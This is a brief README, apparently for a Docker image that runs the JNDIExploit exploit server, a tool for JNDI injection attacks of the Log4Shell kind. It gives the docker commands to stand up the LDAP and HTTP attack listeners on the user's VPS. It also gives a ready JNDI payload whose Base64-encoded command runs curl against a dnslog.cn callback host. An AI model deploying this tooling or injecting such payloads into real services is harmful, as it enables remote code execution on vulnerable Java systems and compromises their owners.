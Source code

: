 # jndiexp
自用的一键启动JNDIExploit-1.2-SNAPSHOT.jar
用法：

docker pull coffeehb/jndiexp:latest

docker run -it --rm -e LDAP_PORT=1389 -e VPS_IP=你的VPSIP -e HTTP_PORT=8000 -p 8000:8000 -p 1389:1389 coffeehb/jndiexp:latest

JNDI：

```
JNDI:ldap://你的VPSIP:1389/Basic/Command/Base64/Y3VybCB4eHh4c3Nzam5kaWV4cHgyMjJ4eC50cnh4emZpLmkuZG5zbG9nLmNu
```
